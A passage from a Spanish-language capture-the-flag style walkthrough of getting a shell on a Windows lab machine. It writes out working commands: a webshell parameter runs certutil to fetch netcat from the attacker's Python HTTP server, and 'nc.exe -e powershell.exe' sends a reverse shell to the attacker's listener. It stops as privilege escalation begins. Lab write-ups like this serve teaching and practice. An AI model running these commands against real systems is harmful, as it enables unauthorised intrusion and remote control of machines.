 Entre otras información nos reportará la versión de Windows y la arquitectura del sistema, que como vemos es de 64 bits.

Procederemos a descargarnos el binario de [Netcat](http://netcat.sourceforge.net/), específicamente la versión para 64 bits.

A continuación, nos dirigiremos al directorio en el que hayamos descargado [Netcat](http://netcat.sourceforge.net/). En este directorio, crearemos un servidor HTTP con [Python3](https://www.python.org/downloads/) que nos permitirá descargar el archivo en la máquina víctima:

```bash
python -m http.server 80
```

Después, en el navegador, usaremos la utilidad certutil.exe (instalada por defecto en Windows) y nos descargaremos el binario que estamos compartiendo. Para ello:

```http
http://.../404.php?cmd=certutil.exe -f -split -urlcache http://10.10.14.254/nc.exe
```

```plaintext
**** Online ****


0000 ...


8eb0


CertUtil: -URLCache command completed successfully.
```

Una vez descargado el binario de [Netcat](http://netcat.sourceforge.net/) en la máquina víctima procederemos a ponernos en escucha para recibir la reverse-shell. En este caso usaremos [rlwrap](https://github.com/hanslub42/rlwrap), ya que nos permitirá simular una consola interactiva en entornos Windows:

```bash
rlwrap nc -nvlp 443
```

Lo siguiente será enviarnos una reverse powershell con netcat desde el navegador, para ello:

```http
http://.../404.php?cmd=nc.exe -e powershell.exe 10.10.14.254 443
```

En este punto recibiremos una powershell como el usuario iusr. Como no tenemos flag de usuario procederemos a escalar privilegios.

<br>

## Shell de administrador

### Enumeración
Lo primero que haremos será comprobar los privilegio del usuario iusr. Para ello:

